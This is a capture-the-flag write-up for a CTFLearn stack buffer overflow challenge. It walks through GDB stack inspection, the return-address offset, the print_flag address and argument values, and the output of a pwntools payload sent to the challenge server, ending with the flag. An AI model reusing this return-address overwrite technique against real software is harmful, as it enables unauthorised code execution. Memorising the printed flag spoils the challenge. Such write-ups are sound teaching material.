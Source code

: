 # Two times sixteen

Looking at `task.c`, we see that `print_flag` gates access to the flag behind two if expressions: `p1 == -1337` and `p2 == 0xC0FFEE`. `print_flag`, in turn, is called from `vuln`. In `vuln`, we see a potential security flaw. Although the `read` command restricts the input to avoid a buffer overflow attack, the input size being read, 64, is greater than the size of the character buffer, 32. This means that we can write into the stack beyond the size of the buffer.

NOTE: The `task` executable is a 32-bit ELF. To run the file on my Windows Subsystem Linux, I had to run:
```
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install gcc-multilib
sudo apt-get install libc6-i386
ln -sf /lib/i386-linux-gnu/libc.so.6 ./libc.so.6
ln -sf /lib/i386-linux-gnu/ld-linux.so.2 ./ld-linux.so.2
```
I am leaving these commands as 32-bit systems are uncommon and this may be useful for ome readers. The last two lines were necessary due to quirks in the dynamic linking of the executable.

We create a test `flag.txt` with:
```
touch flag.txt
echo "Success!" > flag.txt
```

Running `task` with GDB, we find that `task` has been compiled without debugging symbols, meaning that we can't directly view variables. However, we can track the stack right before calling `print_flag`:
```
gdb-peda$ x/40x $sp
0xffffc810:     0xff    0xff    0xff    0xff    0x02    0x00    0x00    0x00
0xffffc818:     0x40    0x00    0x00    0x00    0xbb    0x92    0x04    0x08
0xffffc820:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0xffffc828:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0xffffc830:     0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
```
In this case, I entered a series of 'a's, which appear from `0xffffc820` onwards. We can see -1 (`0xffffffff`) for `p1 = -1` at `0xffffc810` and `p2 = -2` immediately afterwards. This means that we won't be able to directly overwrite the `p1` and `p2` values. Instead, we will have to overwrite the return address. To do so, we run:
```
gdb-peda$ info frame
Stack level 0, frame at 0xffffc850:
 eip = 0x80492ed in vuln; saved eip = 0x8049348
 called by frame at 0xffffc870
 Arglist at 0xffffc848, args:
 Locals at 0xffffc848, Previous frame's sp is 0xffffc850
 Saved registers:
  ebx at 0xffffc844, ebp at 0xffffc848, eip at 0xffffc84c
```
We get `eip at 0xffffc84c`, so we will need to overwrite the value at `0xffffc84c`. Our input starts at `0xffffc820`, so we need 44 hex values, followed by our new return value. The new return value will have to be `0x080491d6`, which `disas print_flag` tells us is the start of `print_flag`. We also need to insert our two arguments, -1337 and `0xC0FFEE`. The payload construction and delivery is in `payload.py`, written after a bit of experimentation to figure out how to overwrite the parameters. Some of the experimentation is in `debug.py`.

Running the script `payload.py` yields:
```
$ python payload.py
[*] '/mnt/c/Users/Brian/Documents/Coding/CTFLearn/Easy/Two times sixteen/task/task'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8046000)
    RUNPATH:    b'.'
    Stripped:   No
[+] Opening connection to rivit.dev on port 10000: Done
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Ö\x04\x08\x00\x00\x00\x00ÇúÿÿîÿÀ\x00
/mnt/c/Users/Brian/Documents/Coding/CTFLearn/Easy/Two times sixteen/task/payload.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  conn.recvuntil("Do you want to say something?")
/mnt/c/Users/Brian/Documents/Coding/CTFLearn/Easy/Two times sixteen/task/payload.py:19: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  conn.sendline(payload)
[+] Receiving all data: Done (157B)
[*] Closed connection to rivit.dev port 10000
output b'\nYou passed the following arguments:\np1 = -1\np2 = 0x2\nYou passed the following arguments:\np1 = -1337\np2 = 0xC0FFEE\nCTFlearn{h3yyy_n0w_y0u_h4v3_7h3_c0n7r0l}\n\n'
```

So, our flag is `CTFlearn{h3yyy_n0w_y0u_h4v3_7h3_c0n7r0l}`.